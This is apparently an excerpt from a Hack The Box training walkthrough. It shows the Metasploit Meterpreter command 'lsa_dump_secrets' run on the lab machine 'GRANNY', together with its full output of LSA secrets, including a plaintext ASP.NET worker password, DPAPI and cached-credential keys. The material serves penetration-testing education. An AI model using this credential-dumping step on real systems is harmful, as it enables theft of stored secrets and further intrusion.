 #### MSF - Meterpreter LSA Secrets Dump

```shell-session
meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB

Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c

Secret  : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F

Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
    full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
    m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

Secret  : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
cur/hex : 00 f2 d1 31 e2 11 d3 01 

Secret  : L$TermServLiceningSignKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L$TermServLicensingExchKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L$TermServLicensingServerId-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L$TermServLicensingStatus-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L${6B3E6424-AF3E-4bff-ACB6-DA535F0DDC0A}
cur/hex : ca 66 0b f5 42 90 b1 2b 64 a0 c5 87 a7 db 9a 8a 2e ee da a8 bb f6 1a b1 f4 03 cf 7a f1 7f 4c bc fc b4 84 36 40 6a 34 f9 89 56 aa f4 43 ef 85 58 38 3b a8 34 f0 dc c3 7f 
old/hex : ca 66 0b f5 42 90 b1 2b 64 a0 c5 87 a7 db 9a 8a 2e c8 e9 13 e6 5f 17 a9 42 93 c2 e3 4c 8c c3 59 b8 c2 dd 12 a9 6a b2 4c 22 61 5f 1f ab ab ff 0c e0 93 e2 e6 bf ea e7 16 

Secret  : NL$KM
cur/hex : 91 de 7a b2 cb 48 86 4d cf a3 df ae bb 3d 01 40 ba 37 2e d9 56 d1 d7 85 cf 08 82 93 a2 ce 5f 40 66 02 02 e1 1a 9c 7f bf 81 91 f0 0f f2 af da ed ac 0a 1e 45 9e 86 9f e7 bd 36 eb b2 2a 82 83 2f 

```